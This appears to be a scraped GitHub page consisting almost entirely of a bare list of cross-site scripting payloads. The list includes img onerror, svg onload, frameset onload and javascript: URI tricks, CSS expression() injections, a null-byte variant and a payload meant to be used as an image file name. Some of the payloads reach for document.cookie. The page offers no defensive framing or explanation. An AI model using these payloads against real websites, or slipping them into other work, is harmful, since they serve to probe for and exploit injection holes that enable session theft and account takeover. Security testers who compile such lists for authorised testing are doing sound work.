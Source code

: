# -img-src-x-onerror-alert-0-h1-s-h1-
'">&lt;img src=x onerror=alert(0)>&lt;h1>s&lt;/h1> &lt;frameset onload=alert(123)> &lt;svg xmlns="#">&lt;script>alert(1)&lt;/script>&lt;/svg> &lt;form id="test" />&lt;button form="test" formaction="javascript:alert(123)">XSS &lt;form>&lt;button formaction="javascript:alert(123)">XSS xss:expression(alert(/xss-by-shawar/)) body{xss:expression(alert("XSS by Shawar Khan"))} &lt;script>alert(1);&lt;/script> ">&lt;svg/onload=prompt(5)> "&lt;svg/onload=alert(6);// %00">&lt;input autofocus onfocus=alert(7);> "onmouseover=alert(8)> “>&lt;svg onload=”prompt(/9/);”> ");&lt;/script>&lt;script>alert(1111111)&lt;/script>" Save image as :- ">&lt;img src=x onerror=prompt(12112)>.jpg ">&lt;img src=a onerror=prompt(12222);> '">&lt;img src=a onerror=prompt(document.domain);> &lt;a href="jAvAsCrIpT&amp;colon;prompt&amp;lpar;document.cookie&amp;rpar;">CLICK ME TO PROMPT&lt;/a> &lt;a href="">&lt;javascript:prompt(document.cookie);> ");&lt;img src=x onerror=prompt(1)>" ");&lt;script>alert("XSS");&lt;/script>" ">&lt;svg/onload=alert(1)> &amp;lt;BR SIZE=\"&amp;{alert('XSS')}\"&amp;gt; ");&lt;script>alert("XSS");&lt;/script>"
